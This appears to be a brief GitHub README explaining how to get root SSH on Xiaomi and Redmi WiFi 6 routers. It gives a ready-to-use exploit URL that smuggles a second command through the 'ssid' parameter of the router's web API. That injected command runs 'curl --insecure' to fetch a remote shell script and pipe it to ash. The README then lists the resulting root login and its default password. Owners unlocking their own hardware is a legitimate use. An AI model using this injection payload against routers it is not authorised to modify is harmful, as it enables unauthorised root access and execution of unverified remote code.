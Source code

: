 # Unlock-SSH-on-Xiaomi-and-Redmi-WiFi-6-routers

Login to the Web UI (http://192.168.31.1), get the stok parameter value from the URL, replace it in the below URL and run it on browser.
```
http://192.168.31.1/cgi-bin/luci/;stok=<STOK>/api/misystem/set_config_iotdev?bssid=gallifrey&user_id=doctor&ssid=-h%0Acurl%20--insecure%20https%3A%2F%2Fraw.githubusercontent.com%2FKaMyKaSii%2FUnlock-SSH-on-Xiaomi-and-Redmi-WiFi-6-routers%2Fmaster%2Funlockssh.sh%20%7C%20ash%0A
```
Now you can connect to ssh with "ssh root@192.168.31.1", the default password is literally "password". Don't forget to change it with "passwd root" afterwards.
